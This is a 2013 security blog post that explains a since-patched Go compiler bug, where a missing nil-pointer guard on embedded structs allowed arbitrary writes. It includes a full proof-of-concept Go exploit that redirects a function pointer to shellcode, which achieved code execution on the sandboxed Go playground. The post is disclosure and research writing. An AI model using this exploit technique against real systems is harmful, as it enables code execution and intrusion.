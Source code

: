 Title: Exploiting a Go Binary
Date: 2013-04-23
Tags: golang, exploitation
Summary: Earlier this year, tylerni7 showed us a proof of concept for a 32 bit Go exploit using <a href="https://code.google.com/p/go/issues/detail?id=5336">this issue</a>. geohot and I had a wager over who could get the first remote code execution on <a href="http://play.golang.org">play.golang.org</a>: he won, but just barely ;-). Props also to ricky for helping to find the underlying cause/writing the patch. Here is a summary of how we did it.

<h3>Introduction</h3>
Earlier this year, tylerni7 showed us a proof of concept for a 32 bit Go
exploit using <a href="https://code.google.com/p/go/issues/detail?id=5336">this
issue</a>. geohot and I had a wager over who could get the first remote code
execution on <a href="http://play.golang.org">play.golang.org</a>: he won, but
just barely ;-). Props also to ricky for helping to find the underlying
cause/writing the patch. Here is a summary of how we did it.

Note: [play.golang.org](http://play.golang.org) is properly sandboxed, so 
code execution there does not
actually let you do anything. Had this been a more serious bug that could
actually be used for anything malicious, we would have immediately reported it
privately. Neither specific vulnerability nor the technique used here work in the latest version of Go (the vulnerability was patched and Go 1.1 introduced non-executable heaps).

This post is cross posted on the [PPP blog](http://ppp.cylab.cmu.edu/wordpress/?p=1087).

<h3>The Bug</h3>
<p>Go has support for embedded structs. You can define an embedded struct as follows:</p>
~~~
:::go
type Embedded struct {
   foo int
}

type Struct struct {
   Embedded
   bar int
}

var instance Struct
~~~
<p>
It is valid to do both <tt>instance.bar</tt> and <tt>instance.foo</tt>.</p>

<p>The problem comes when you try something slightly trickier:</p>
~~~
:::go
type Embedded struct {
   foo int
}

type Struct struct {
   *Embedded
   bar int
}

var instance Struct
~~~
<p>
When you access <tt>instance.foo</tt> (a member of an uninitialized struct), it incorrectly offsets from 0 rather than from the base of an <tt>Embedded</tt> struct. Normally, when dereferencing a pointer inside a struct, the go compiler
emits guard code which will cause a segfault if the pointer is nil.
However, this code is not emitted when the pointer is the first element
of the struct, since it's assumed that this will cause a segfault
whenever it is used anyway.  This assumption is not always valid, as the
pointer can be to a large struct such that the offsets of members of the large
struct are valid addresses.
</p>

<h3>The Vulnerability</h3>
<p>We define an enormous struct and use it to offset memory:</p>
~~~
:::go
type Embedded struct {
   offset [0x400100]byte
   address uint32
}

type Struct struct {
   *Embedded
   bar int
}
var instance Struct
~~~
<p>
Now we can do <tt>instance.address = 0xdeadbeef</tt> and we have written to <tt>0x400100</tt>! This is the arbitrary write primitive we need.</p>

<h3>The Exploit</h3>
<p>Once you have an arbitrary write in go, it is <em>really easy</em> to get arbitrary code execution. We put a function pointer in our data segment (we wanted to put it in the heap, but that didn't work on 64bit Go - apparently the size of a struct is limited to 32 bits. Luckily, the data segment is in the lower 32 bits) and change it to point to our shell code using the arbitrary write. Since Go has <em>no randomization</em> at all, this is as simple as running the program twice. Full exploit below:</p>
~~~
:::go
package main

import "fmt"

// Address to write, computed from a previous run.
const addr_to_overwrite = 0x50e2f0
// &shellcode, computed from a previous run.
const val_to_overwrite uint64 = 0xc200035160

type Embedded struct {
   offset [addr_to_overwrite]byte
   payload uint64
}

type Nested struct {
  // This magic is necessary is because there is an explict null check if
  // if the offset is greater than 0x1000.
  Embedded
}

type Struct struct {
 // The issue is that a reference to the embeded struct pointer here
 // will be offset from null (rather than the true base of the struct).
 // We thus just make sizeof(the embedded struct) large enough to point
 // to the address we want to overwrite.
 //
 // See https://code.google.com/p/go/issues/detail?id=5336
 *Nested
}

var unused = func () {}

func main() {
 s := &Struct{}
 shellcode := "\x90\x90\x90\x90\x90\x90\x90\xeb\xfe"

 fmt.Println("You should overwrite this: ", &unused)
 fmt.Println("With this: ", &shellcode)

 fmt.Println("***********************************************");
 fmt.Println("Overwriting ", &s.payload, " with ", val_to_overwrite)

 *(&s.payload) = val_to_overwrite;
 
 unused();
}
~~~

<h3>What Now?</h3>
Well, clearly the [issue](https://code.google.com/p/go/source/detail?r=37bf155bc78073d51c0b5706a4f3fba19cca67f4)
was fixed. I also think it is important for Go to add the protections
that come now standard with C binaries (ASLR, NX) - I posted 
[an article](|filename|/security/securing_and_exploiting_go_binaries.md) 
earlier about security in Go where I strongly advocated those protections. 
Luckily, Go 1.1. will be adding some of these protections: specificially, the 
above exploit will not work because [Go 1.1  uses a non-executable heap and stack](https://groups.google.com/forum/?fromgroups=#!topic/golang-nuts/o2Q5oc36Qt0).
